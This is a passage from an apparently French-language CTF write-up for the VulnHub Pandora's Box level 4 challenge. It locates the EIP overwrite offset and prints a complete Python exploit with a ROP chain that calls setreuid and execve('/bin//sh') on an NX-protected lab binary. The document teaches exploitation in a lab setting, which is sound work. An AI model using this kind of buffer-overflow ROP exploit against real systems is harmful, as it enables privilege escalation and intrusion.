 On a EIP qui est écrasé à l'offset 4124 de notre buffer et ESP qui pointe juste derrière :

```python
>>> g.find(b"\x69\x61\x63\x74")
(7124, 1, 4124)
>>> g.find(b"jact")
(7128, 1, 4128)
```

Le binaire ayant le flag NX on va juste placer une ROP-chain à partir de l'adresse de retour et ça va bien se passer, comme sur le [level 3](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Pandora's%20Box%20de%20VulnHub%20(level%203).md) : le code va pop-er l'adresse de retour que l'on a écrasé qui correspond au début de notre ROP-chain puis pop-er ainsi jusqu'à avoir exécuté tout le shellcode.

J'ai utilisé ROPgadget pour générer la ROP-chain et je l'ai un peu adapté (`setreuid` + utilisation de `pop eax` au lieu de 11 `inc eax` qu'il avait mis) :

```python
#!/usr/bin/env python3
# execve generated by ROPgadget

from struct import pack

p = b"A" * 4124
p += pack('<I', 0x080583ad) # pop ecx ; pop ebx ; ret
p += pack('<I', 1004)  # iud de level4
p += pack('<I', 1004)
p += pack('<I', 0x080a8326) # pop eax ; ret
p += pack('<I', 70)  # setreuid
p += pack('<I', 0x08058ab0) # int 80 ; ret

p += pack('<I', 0x08058386) # pop edx ; ret
p += pack('<I', 0x080ca680) # @ .data
p += pack('<I', 0x080a8326) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x08083dd1) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x08058386) # pop edx ; ret
p += pack('<I', 0x080ca684) # @ .data + 4
p += pack('<I', 0x080a8326) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x08083dd1) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x08058386) # pop edx ; ret
p += pack('<I', 0x080ca688) # @ .data + 8
p += pack('<I', 0x080999bf) # xor eax, eax ; ret
p += pack('<I', 0x08083dd1) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583ae) # pop ebx ; ret
p += pack('<I', 0x080ca680) # @ .data
p += pack('<I', 0x080583ad) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080ca688) # @ .data + 8
p += pack('<I', 0x080ca680) # padding without overwrite ebx
p += pack('<I', 0x08058386) # pop edx ; ret
p += pack('<I', 0x080ca688) # @ .data + 8
p += pack('<I', 0x080a8326) # pop eax ; ret
p += pack('<I', 11)
p += pack('<I', 0x08048b2d) # int 0x80

with open("exploit_file", "wb") as fd_out:
    fd_out.write(p)
```
